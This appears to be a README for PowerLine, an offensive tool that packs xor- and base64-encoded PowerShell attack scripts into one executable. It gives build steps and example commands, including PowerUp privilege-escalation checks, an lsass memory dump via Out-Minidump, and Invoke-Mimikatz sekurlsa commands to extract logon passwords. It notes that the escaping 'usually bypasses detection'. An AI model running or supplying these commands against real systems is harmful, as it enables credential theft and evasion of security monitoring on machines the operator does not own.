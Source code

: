 # PowerLine

Download the Repo

Run the build.bat file

Update the UserConf.xml document to contain the URLs of the scripts that you'd like to include (examples shown)

Run the PLBuilder.exe file

The PowerLine.exe program should now be created and contains embedded, xor-encoded, base64-encoded versions of all of the scripts that you specified

Example Usage:

//Shows scripts that are currently embedded in the program

  PowerLine.exe -ShowScripts

//Run Invoke-AllChecks from the PowerUp script

  PowerLine.exe PowerUp "Invoke-AllChecks"

//Get a dump of the lsass process. Must run as an admin

  PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"

//Run mimikatz against the dump file created by the Out-Minidump command to extract creds. lsass_dump_name.dmp will be the name generated by Out-Minidump

//Yes, it's hellacious escaping but it works and usually bypasses detection =)

  PowerLine.exe Invoke-Mimikatz "Invoke-Mimikatz -Command \"`\"sekurlsa::minidump lsass_dump_name.dmp`\" `\"sekurlsa::logonPasswords`\"\""
